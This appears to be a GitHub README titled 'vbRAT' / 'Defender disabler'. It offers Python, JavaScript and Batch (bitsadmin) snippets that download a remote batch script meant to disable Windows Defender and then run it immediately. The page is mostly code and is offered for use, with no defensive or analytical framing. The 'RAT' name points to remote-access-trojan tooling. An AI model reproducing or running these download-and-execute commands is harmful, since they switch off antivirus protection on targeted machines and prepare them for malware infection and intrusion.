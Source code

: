 # vbRAT


<h2 align="center">
  Defender disabler 

</h2>

- [Python](https://www.python.org/):

```python
import requests, os
_file = requests.get('https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat')

with open('demo.bat', 'w') as f:
    f.write(_file.text)

os.startfile('demo.bat')
```

- [Javascript](https://nodejs.org/en/):

```javascript
const { exec } = require('child_process');
const fs = require('fs');
const axios = require('axios');

axios.get('https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat', {
    responseType: 'text',
  }).then((response) => {
    fs.writeFileSync('demo.bat', response.data, { flag: 'a' }, (err) => {});
  });
exec('demo.bat');
```

- [Batch](https://en.wikipedia.org/wiki/Batch_file):

```batch
bitsadmin /transfer Packages /download /priority foreground https://raw.githubusercontent.com/Rdimo/Defender-disabler/main/disabler.bat "demo.bat"
start demo.bat
```

